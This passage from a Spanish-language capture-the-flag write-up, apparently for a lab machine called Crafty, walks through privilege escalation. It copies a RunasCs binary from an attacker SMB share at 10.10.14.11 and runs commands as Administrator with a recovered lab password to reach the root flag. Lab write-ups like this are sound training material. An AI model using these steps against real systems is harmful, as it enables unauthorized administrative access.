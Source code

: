 
![runasCS](/crafty/runasCS.png)


Ahora nos movemos a una carpeta en donde se cuente con permisos de escritura, como lo es `C:\users\public`, y se transfiere el archivo mediante el servidor **SMB** que se creó anteriormente.


```bash
c:\Users\svc_minecraft\server\plugins>cd C:\users\public
cd C:\users\public

C:\Users\Public>
```
{: .nolineno}

```bash
C:\Users\Public>copy \\10.10.14.11\share\csrunas.exe csrunas.exe
copy \\10.10.14.11\share\csrunas.exe csrunas.exe
        1 file(s) copied.

C:\Users\Public>
```
{: .nolineno}

El uso de **RunasCS** es el siguiente:

```bash
Usage:
    RunasCs.exe username password "cmd /c whoami"
```
{: .nolineno}


Por lo que, para nuestro caso, se puede ejecutar el siguiente comando para probar las credenciales del usuario:

```bash
C:\Users\Public>.\csrunas.exe Administrator s67u84zKq8IXw  "cmd /c whoami"

crafty\administrator
```
{: .nolineno}

Gracias a esto, se puede ejecutar comandos como **Administrador** dentro de la máquina, por lo que ya se puede hacer cualquier cosa. Entre las opciones se puede ver la **flag de root**.


```bash
C:\Users\Public>.\csrunas.exe Administrator s67u84zKq8IXw  "cmd /c dir C:\users\Administrator\desktop"

 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of C:\users\Administrator\desktop

02/05/2024  06:05 AM    <DIR>          .
02/05/2024  06:05 AM    <DIR>          ..
02/11/2024  09:23 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,110,182,912 bytes free
```
{: .nolineno}




